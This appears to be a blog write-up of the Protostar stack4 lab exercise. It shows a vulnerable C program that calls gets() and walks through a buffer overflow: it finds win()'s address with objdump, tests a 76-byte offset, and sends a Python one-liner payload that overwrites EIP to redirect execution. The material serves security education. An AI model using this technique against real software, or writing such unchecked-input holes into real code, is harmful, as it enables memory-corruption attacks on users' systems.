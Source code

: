 ```yaml
---
layout: post
title: "Overwriting the instruction pointer: protostar stack4"
date: 2018-10-28
categories: jekyll update
---
```

We can see this level is similar to the previous one, but with one major difference. 
{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{% endhighlight %}
There is a function, win() which we will attempt to call, but we are no longer given a function pointer to overwrite. 

We will need to write to the instruction pointer, in this case, it is specifically called the EIP. To do this, we first need to find the address of the win() function, because that is what we will write to the instruction pointer.

objdump is again perfect for this.

$objdump -D stack4 \| grep win

080483f4 \<win\>:

$

The address in this case is 0x80483f4.

We now just need to find the offset between the end of the buffer, which we will fill up, and the EIP we want to overwrite. This can be done by writing a script, trial and error, or we can just use what we did before (76 characters). The buffer is the same size, so we might as well give 76 a shot

$python -c 'print "A"*76' | ./stack4 

Segmentation fault

$

A segmentation fault is a good sign. We are overwriting the EIP, and causing it to access memory out of bounds. Just to be safe, we can test it at 75 characters and see if it segfaults.

$python -c 'print "A"*75' | ./stack4 

$

Looks like 76 is perfect, now we need to append the address of win(), in little endian byte order, and cause the program to execute the win() function.

$python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4

Code flow successfully changed

Segmentation fault

$

Looks like it works.
